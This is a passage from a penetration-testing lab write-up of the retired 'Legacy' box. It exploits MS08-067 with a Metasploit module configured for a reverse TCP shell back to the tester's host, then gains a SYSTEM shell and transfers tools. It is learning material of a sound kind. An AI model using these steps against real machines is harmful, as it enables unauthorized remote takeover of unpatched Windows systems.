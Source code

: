 According to the `smb-vuln-ms08-067` and `smb-vuln-ms17-010` scripts, Legacy
should be vulnerable to both
[MS08-067](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)
and
[MS17-010](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010).

## Foothold ([MS08-067](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067))

[MS08-067](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)
is a buffer overflow vulnerability in the Windows Server service, more
specifically a flaw in the path canonicalization code of `NetAPI32.dll`. The
Windows Server service is responsible for handling file and print sharing on
Windows systems, and allowing communication between network devices. By sending
a specific RPC request to the target system, an attacker can get RCE.

### Preparation

I'll use the Metasploit module `exploit/windows/smb/ms08_067_netapi` to
exploit this vulnerability, since it's non-trivial to do by hand.

I'll set the `payload` to
`payload/windows/shell_reverse_tcp`, the `RHOSTS` to `10.10.10.4`, the
`LHOST` to `10.10.14.4` and the `LPORT` to `9001`.

### Exploitation

No we can launch the exploit!

```sh
msf6 exploit(windows/smb/ms08_067_netapi) > run
```

```
<SNIP>
C:\WINDOWS\system32>
```

It went off without a hitch.

However, I don't like Metasploit's shell, so I'll open my own on port `9002`.
Unfortunately, Powershell doesn't exist on this box.

## Getting a lay of the land

If we try to run `whoami`, we see that the command doesn't exist. However, we
can easily circumvent this problem by transferring `whoami.exe` to Legacy.

If we execute this binary, we discover that we got a foothold as
`NT AUTHORITY\SYSTEM`.

I could just retrieve the flags and call it a day, but for good measure I'll
still enumerate basic information.

### Architecture
